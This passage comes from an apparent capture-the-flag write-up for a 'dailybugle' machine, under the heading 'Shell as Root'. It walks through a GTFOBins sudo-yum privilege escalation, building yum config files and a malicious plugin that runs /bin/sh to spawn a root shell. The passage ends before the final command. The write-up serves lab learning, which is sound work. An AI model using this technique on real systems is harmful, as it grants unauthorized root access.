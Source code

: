 
### Shell as Root

While checking sudo privileges of user jjameson, we got to know that we can run yum as sudo.

We can check, how can we escalate our privileges via yum on gtfobins.

[yum
            
            |
            
            GTFOBins](https://gtfobins.github.io/gtfobins/yum/#sudo)

<img width="1894" height="873" alt="image 12" src="https://github.com/user-attachments/assets/75c6a43c-18aa-43d5-94d3-61866c16e018" />

Let’s just follow the steps:

1. Create a temporary directory
    
    ```bash
    [jjameson@dailybugle ~]$ TF=$(mktemp -d)
    ```
    
2. Create a `yum` configuration file pointing to your custom plugin directory
    
    ```bash
    [jjameson@dailybugle ~]$ cat >$TF/x<<EOF
    > [main]
    > plugins=1
    > pluginpath=$TF
    > pluginconfpath=$TF
    > EOF
    ```
    
3. Create a plugin config file named `y.conf`
    
    ```bash
    [jjameson@dailybugle ~]$ cat >$TF/y.conf<<EOF
    > [main]
    > enabled=1
    > EOF
    ```
    
4. Create the malicious plugin itself
    
    ```bash
    [jjameson@dailybugle ~]$ cat >$TF/y.py<<EOF
    > import os
    > import yum
    > from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
    > requires_api_version='2.1'
    > def init_hook(conduit):
    >   os.execl('/bin/sh','/bin/sh')
    > EOF
    
    # This plugin runs during the init_hook stage.
    # It simply executes /bin/sh using os.execl.
    # If run with sudo, this spawns a root shell.
    ```
    